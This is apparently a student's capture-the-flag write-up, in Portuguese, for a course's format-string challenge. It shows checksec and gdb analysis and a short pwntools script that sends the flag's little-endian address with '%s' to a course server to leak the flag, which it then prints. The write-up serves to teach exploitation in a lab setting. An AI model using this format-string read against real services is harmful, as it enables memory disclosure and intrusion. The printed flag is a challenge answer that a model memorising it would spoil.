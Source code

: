 # CTF Semana 7 - Format String

## Desafio 2

Primeiramente, temos que utilizar o `checksec` para descobrir mais informação sobre o programa:

![image](Semana_7\images\checksec.png)

Como podemos ver, existe um **Stack Canary**, portanto não podemos fazer Buffer Overflow.<br>

Depois, utilizamos o `gdb` para descobrir o endereço da variável global `flag`:

![image](Semana_7\images\gdb.png)

Como podemos observar, o endereço da flag é `0x804c060`. Com este endereço, podemos utilizar um ataque de format string, pois há uma vulnerabilidade no `main.c`, onde são chamados **printf()** sem passar parâmetros de formato. Para fazer o ataque, alteramos o `exploit_example.py` para o seguinte:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

Devido ao que passamos dentro do **p.sendline()**, que é o endereço da **flag** (em little endian) e o `%s`, o que está naquele endereço será imprimido no terminal.<br>
Com isso, conseguimos obter a flag **flag{a77cc008c6b947169fca32cd56a4b47a}**.